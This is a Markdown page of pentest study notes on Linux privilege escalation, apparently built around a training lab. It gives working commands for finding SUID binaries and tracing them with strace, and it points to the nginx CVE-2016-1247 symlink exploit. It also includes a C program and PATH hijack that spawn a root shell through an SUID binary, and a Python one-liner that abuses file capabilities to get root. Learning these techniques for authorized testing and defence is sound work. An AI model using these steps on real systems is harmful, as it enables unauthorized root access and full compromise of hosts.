 ## Escalation Path: Other SUID Escalation
**Escalation via Shared Object Injection**
- During execution, a program needs to load some shared objects. In this process some system calls are made. We can view the list of these system calls using a program called strace.
- strace: Traces system calls and signals.
- Find  the files with suid bit set
  - `find / -type f -perm -04000 -ls 2>/dev/null`
  - Or, `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
- Strace
  - With strace, we can find out what system calls are being made while executing the program.
  - `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`
  - We should be able to overwrite some of the files on it.
- Further exploitation: https://sheetalpatil321.medium.com/linux-privilege-escalation-22f1118a1644

**Escalation via Binary Symlinks**
- When we have www-data user and if the ngnix is used on the server. We can perform nginx exploit to privilege the escalation.
- Accessed as www-data then,
  - Run linux exploit suggestor
  - Exploit the vulnerability as the suggestor suggest
  - For this attack to be successfull, the log directory for nginx must be writable.
  - Open new terminal and login as root. Password is not required.
- Resources: https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html

**Escalation via Environment Variables**
- Search for the application/executable file with root permission
  - `find / -type f -perm -u=s 2>/dev/null`
- View the strings from the executable file
  - `strings /usr/local/bin/suid-env`
  - There might be the line like "service apache2 start" but if the full path is not given for the service, we can overwrite the service with new environment variable.
  - Create a script in C. 
  ```C
  int main() {
        setuid(0);
        system("/bin/bash -p");
  }
  ```
- Make it executable
  - `gcc -o service service.c`
- View the environment variables
  - `echo $PATH`
- Append a new path which is current directory.
  - `export PATH=/home/user/a-path-where-service.c-file-is-located:$PATH` 
- Run the executable
  - `/usr/local/bin/suid-env`
  - We will get a escalated shell.

## Escalation Path: Capabilities
- `getcap -r / 2>/dev/null`
- If it has ep, then,
  - Example: `/usr/bin/python2.6 -c 'import os;os.setuid(0); os.system("/bin/bash")'`
  - It can be done with python, tar, openssl, perl and many more which have ep cabailities. (ep means permitted everything)
